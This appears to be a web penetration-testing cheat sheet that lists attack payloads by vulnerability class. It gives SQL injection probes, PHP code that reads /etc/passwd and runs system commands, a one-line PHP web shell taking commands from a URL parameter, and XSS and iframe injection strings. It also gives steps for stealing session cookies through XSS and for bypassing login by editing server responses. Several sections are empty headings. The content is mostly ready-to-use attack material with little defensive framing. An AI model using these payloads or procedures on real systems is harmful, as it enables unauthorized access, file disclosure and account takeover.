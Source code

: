 ## Time Based Blind SQL Injection:
```
'(select * from (select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--
```
## Error Based SQL Injection:

## Boolean Based Blind SQL Injection:
```
'2 OR 1=1
''2 OR 1=1
"2 OR 1=1
'2 AND 1=1
''2 AND 1=1
"2 AND 1=1
```
## Local File Inclusion (LFI):
```


```
## Remote Code Execution (RCE):
```
<?php system("cat /etc/passwd");?>
<?php system("cat /etc/passwd");?>
<?php echo phpinfo(); ?>
<?php include 'C:\Windows\System32\drivers\etc\hosts';?>
```
## Malicious File Upload (Shell Execution):
```
<?php system($_GET['cmd']); ?>

https://github.com/hackerhijeck/For_Me/blob/main/Web_Shell.php
```
## Application is Vulnerable to Reverse Web shell (Shell Execution):
```

```
## File Upload Bypass:
```
https://book.hacktricks.xyz/pentesting-web/file-upload
```
## Session Hijacking:
```
Step1: Using xss hunter payload, execute the payload in logged in user account.
Step2: After got the cookies in the XSS Hunter.
Step3: Copy the cookies and before login paste and change into the cookies and refresh it.
```
## Session Fixation in The Application:
```
Step1: Before login, Check the cookie or session token.
Step2: Then After login, Check the cookie or session token, If same token or cookies is there.
```
## URL Redirection in the application:
##### Enpoint Pattern:
```
/?url=
/?redirect_url:
/?checkout_url=
/?login_url=
/?redirect_uri=
```
## Reflected Cross Site Scripting Attack:
```
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>
javascript:alert(1)//
"onmouseover=alert(1);
<x onclick=alert(1)>click!
```
## HTML Injection
```
<h1>HTML_Injection</h1>
<marquee>HTML_Injection</marquee>
```
## Link Injection:
```
<a href="https://www.intelliroot.com">Test</a>
```
## Iframe Injection:
```
<iframe src="https://https://www.intelliroot.com"></iframe>
```
## Blind Cross Site Scripting Attack:
```
XSS Hunter payload
```
## Admin/User Login Authentication Bypass Using Success Response:
#### Process 1:
```
Step1: Login panel capture the request and Do intercept and click to respnse to this request and then forward the request
Step2: If Response code 404 Forbidon then change to 200 OK. and then forward the request.
```
#### Process 2:
```
Step1: In login panel first logged in a valid user and capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step2: Copy the 200 OK reponse data and save it any txt format.
Step3: Now try to unathorized user, in login panel capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step4: In Response data, paste the data which copied from a valid user, and then forward the request.
```
## Cross Site Request Forgery (CSRF)
### Test CGI script exposes environment variables
### Account Takeover through forget password
### Improper File Content Validation in the Application
### No Session Termination After Password Change
### Password History Check is not Implemented
### Concurrent Logins with the Same Username in admin/user account
### Trace method Enabled
### Full path disclosure
### Improper Input Validation in the Application:
```
<script>alert(1)</script>
<h1>Test</h1>
```
### Client side validation bypass of email and phone number verification
### Application is Vulnerable to Clickjacking Attacks
### OpenSSL Version disclose in the application
### Last Login Time Not Implemented in the Application
